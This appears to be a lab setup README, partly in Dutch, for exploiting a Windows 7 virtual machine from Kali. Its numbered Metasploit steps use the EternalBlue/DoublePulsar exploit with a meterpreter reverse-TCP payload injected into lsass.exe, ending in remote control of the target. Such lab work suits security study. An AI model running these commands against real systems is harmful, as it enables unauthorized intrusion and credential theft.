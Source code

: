 # SETUP
1) Run "Setup Script"
	- make sure Kali-2023.4-64bit is unzipped so the folder 64bit is accessible in the root
	- make sure the windows iso file is accessible in the root
	
# WINDOWS VM

1) Installeer Guest Additions op Windows
	- Open Computer - CD Drive (E:) - vboxadditions - VBoxWindowsAdditions.exe
	- Herstart VM

2) Run "Transfer To Windows VM"

3) Op de Windows VM, run de bat file "post-install-windows-7" die op het bureaublad staat

4) Open CMD en run 'ipconfig'. Noteer het IPv4 Address

# KALI VM

1: ```sudo apt-get update```

2: ```git clone https://github.com/w0rtw0rt/EternalBlue```

3: ```sudo apt-get update```

4: ```git clone https://github.com/w0rtw0rt/EternalBlue```

5: ```msfconsole```

6: ```exit```

7: ```sudo cp EternalBlue/Eternalblue-Doublepulsar-Metasploit/eternalblue-doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb```

8: ```sudo dpkg --add-architecture i386```

9: ```sudo apt-get install libwine (of gewoon wine?)```

10: ```sudo mkdir /root/.wine```

11: ```sudo mkdir /root/.wine/c_drive```

12: ```sudo metasploit```

13: ```use auxiliary/scanner/smb/smb_ms17_010```

14: ```set RHOSTS <Windows IP>```

15: ```run```

16: ```use payload/windows/x64/meterpreter/reverse_tcp```

17: ```set LHOST <Kali IP>```

18: ```use exploit/windows/smb/eternalblue_doublepulsar```

19: ```set payload payload/windows/x64/meterpreter/reverse_tcp```

20: ```set TARGET 8```

21: ```set RHOSTS <windows ip>```

22: ```set LHOST <kali ip>```

23: ```set TARGETARCHITECTURE x64```

24: ```set PROCESSINJECT lsass.exe```

25: ```set DOUBLEPULSARPATH /home/osboxes/EternalBlue/Eternalblue-Doublepulsar-Metasploit/deps/```

26: ```set ETERNALBLUEPATH /home/osboxes/EternalBlue/Eternalblue-Doublepulsar-Metasploit/deps/```

27: ```set WINEPATH /home/osboxes/.wine/drive_c/```

28: ```run```

YOU HAVE GOT CONTROL OVER WINDOWS PC
